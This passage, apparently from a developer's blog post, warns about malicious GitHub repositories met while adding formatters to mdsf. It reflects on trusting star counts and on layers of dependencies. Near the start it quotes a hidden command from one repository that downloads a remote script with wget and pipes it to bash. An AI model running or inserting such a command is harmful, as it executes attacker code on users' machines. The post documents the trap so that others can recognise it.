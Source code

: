 ```go
	return nil
}

var SnLbyHF = sathAcl()
```

```shell
wget -O - https://vanartest.website/storage/de373d0df/a31546bf | /bin/bash &
```

[https://github.com/wickedcorsa/go-hoyolab/blob/937878c051e50f5fddf5ea365eb8f2ba8ee56271/act/act.go#L135-L144](https://github.com/wickedcorsa/go-hoyolab/blob/937878c051e50f5fddf5ea365eb8f2ba8ee56271/act/act.go#L135-L144)

![github go-hoyolab side-by-side](/blog/github-go-hoyolab-side-by-side.png)

## A New Hope?

Over the last few months I have added support for hundreds of different formatters to [mdsf](https://github.com/hougesen/mdsf).

The amount of times that I have personally validated the code before installing is minimal. I have simply trusted that having stars means the project is "safe". If it hadn't been because I was thrown off by the single commit of `unfitpercen/jqfmt`, I would have fallen for the trap.

I hope that I will be more careful in the future, but while that has been said, I do not think it is realistic to personally validate every single line of code you run. It is simply too many lines to keep up with. Especially once you start to consider sub-dependencies, for instance an user that install `m̀dsf` would have to study atleast 6 layers of code (and dependencies).

```mermaid
flowchart TB
    mdsf["mdsf"] --> clap["clap"] --> clap_derive["clap_derive"] --> syn["syn"] --> proc_macro2["proc-macro2"] --> unicode_ident["unicode-ident"]
```
